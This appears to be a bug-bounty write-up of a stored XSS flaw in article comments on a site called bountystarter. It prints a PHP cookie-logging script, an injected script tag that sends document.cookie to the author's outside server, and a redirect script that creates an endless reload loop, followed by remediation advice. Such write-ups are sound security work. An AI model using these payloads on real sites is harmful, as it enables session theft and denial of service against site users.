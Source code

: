 ## 1 Description :
I found a vulnerability in the comment part of articles on **bountystarter** website.
This vulnerability is **XSS stored**.

---

## 2 Exploitation :
I have read the source code of the web application and I see in the comment part user comments are inside <p> tag.
For example :

````html
<p>
   My wonderful comment
</p>
````

But if I close this tag and inject Javascript instructions can I steal cookies ?

---

## 3 PoC :
### 3.1 Prepare :
I have created a PHP script on my web server *guillaume-petit.fr*.
The script *cookies.php* save all cookie *get parameters* in *cookies.txt* file :
````php
<?php
    $fp = fopen('cookies.txt', 'w');		// open cookies.txt file
    fwrite($fp, $_GET["cookie"]);			// write cookie get parameter in cookies.txt
    fclose($fp);							// close cookies.txt file
?>
````

---

### 3.2 Exploit :
In comment part in the article of the website :
[https://bountystarter.com](https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/view/Win%20tickets%20for%20Esport%20main%20event)

After, I inject in part comment my JavaScript instructions :
````html
</p>
<script>
	window.open("http://guillaume-petit.fr/cookies.php?cookie="+document.cookie)
</script>
````

I reload the page and test if my cookie is saved into my server.
No, none cookie saves inside *cookies.txt* file, because cookies are created on the computer with **http only** flag.
So anyone can steal cookies with this tip.

---

## 4 Conclusion :
To conclude I have found a bug XSS injection stored, but I can't exploit this one because cookies are created with http only flag.

---

## 5 Bonus the hell loop :
Ok my injection doesn't work but, I can create a hell loop inside the application.

To creating this loop I need to modify the php script in my web server :
````php
<?php
	header("Location: https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/view/Win%20tickets%20for%20Esport%20main%20event", true, 301);
?>
````

Representation of attack :
![img](./infinite-loop.png)

---

## 6 Risk :
No risk as long as cookies are set with the http only flag.

---

## 7 Remediation :
Use strip_tags() fonction for filter user input and escape html tags.